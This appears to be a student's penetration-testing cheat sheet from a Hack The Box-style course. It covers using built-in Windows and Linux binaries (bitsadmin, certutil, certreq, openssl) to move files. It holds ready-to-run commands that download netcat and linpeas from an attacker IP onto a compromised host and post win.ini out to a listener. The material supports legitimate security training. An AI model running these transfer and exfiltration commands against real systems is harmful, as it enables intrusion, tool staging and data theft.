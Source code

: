 - [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)


## Windows
#### Bitsadmin Download function
```powershell
bitsadmin /transfer wcb /priority foreground http://$ip:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe

Import-Module bitstransfer; Start-BitsTransfer -Source "http://$ip:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

#### Certutil.exe
```powershell
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

#### LOTLBAS
Search database using `/` and `method`
![[Pasted image 20250106080352.png]]
##### CertReq.exe Upload
```bash
nc -lnvp 8000
```

```powershell
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

## Linux
#### GTFOBins
Search database with `+` and `method`
![[Pasted image 20250106080622.png]]

##### OpenSSL Download
On our machine
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < ~/opt/linpeas.sh
```
On compromised machine
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > linpeas.sh
```
